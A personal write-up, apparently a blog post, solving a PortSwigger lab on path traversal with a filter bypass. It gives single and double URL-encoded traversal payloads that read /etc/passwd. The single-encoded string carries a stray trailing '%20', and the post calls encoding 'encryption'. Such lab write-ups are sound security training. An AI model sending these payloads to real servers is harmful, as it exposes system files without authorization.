 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 4"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal,bscp]
categories: [PortSwigger]
---
```


# Lab 4 - Directory Traversal - File path traversal, traversal sequences stripped with superfluous URL-decode
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode">Port Swigger - Lab 4</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691842">Rana Khalil - Lab 4</a>
<br/>

### Solution
<hr/>

#### 1. No encoding:

![Directory Traversal - Lab 4 - No encryption](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-no-encryption.png)


#### 2. Double url encode the payload

```
../../../../etc/passwd
```
#### First URL encoding:
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64%20
```

![Directory Traversal - Lab 4 - First Url Encoding](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-first-encryption.png)

#### Second URL encoding:
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```
![Directory Traversal - Lab 4 - Second Url Encoding](/images/portswigger/DirectoryTraversal/lab4/directory-traversal-lab4-second-encryption.png)
<hr/>